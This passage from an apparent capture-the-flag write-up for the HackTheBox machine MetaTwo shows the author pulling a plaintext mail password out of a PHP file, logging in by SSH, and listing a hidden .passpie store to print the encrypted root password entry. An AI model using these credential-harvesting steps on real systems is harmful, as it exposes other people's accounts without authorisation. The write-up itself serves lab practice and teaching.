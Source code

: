 ```
```

Skimming it reveals the `jnelson` user credentials.

```
┌──(kali㉿kali)-[~/htb/machines/metatwo]
└─$ cat send_email.php
...
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
...
```

SSH into the box and get the user flag.

### Root

```
jnelson@meta2:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for jnelson:
Sorry, user jnelson may not run sudo on meta2.
```

The easy approach doesn't seem to work out here, so I'll import LinPeas after I investigate around for some hidden files.

```
jnelson@meta2:~$ ls -la
total 32
drwxr-xr-x 4 jnelson jnelson 4096 Oct 25 12:53 .
drwxr-xr-x 3 root    root    4096 Oct  5 15:12 ..
lrwxrwxrwx 1 root    root       9 Jun 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 jnelson jnelson  220 Jun 26  2022 .bash_logout
-rw-r--r-- 1 jnelson jnelson 3526 Jun 26  2022 .bashrc
drwxr-xr-x 3 jnelson jnelson 4096 Oct 25 12:51 .local
dr-xr-x--- 3 jnelson jnelson 4096 Oct 25 12:52 .passpie
-rw-r--r-- 1 jnelson jnelson  807 Jun 26  2022 .profile
-rw-r----- 1 root    jnelson   33 Feb  8 00:08 user.txt
```

What do you know! There is a .passpie directory, which is definitely not common in home directories. Let's take a look inside.

```
jnelson@meta2:~$ cd .passpie
jnelson@meta2:~/.passpie$ ls
ssh
jnelson@meta2:~/.passpie$ cd ssh
jnelson@meta2:~/.passpie/ssh$ ls
jnelson.pass  root.pass
jnelson@meta2:~/.passpie/ssh$ cat root.pass
comment: ''
fullname: root@ssh
login: root
modified: 2022-06-26 08:58:15.621572
name: ssh
password: '-----BEGIN PGP MESSAGE-----


  hQEOA6I+wl+LXYMaEAP/T8AlYP9z05SEST+Wjz7+IB92uDPM1RktAsVoBtd3jhr2
```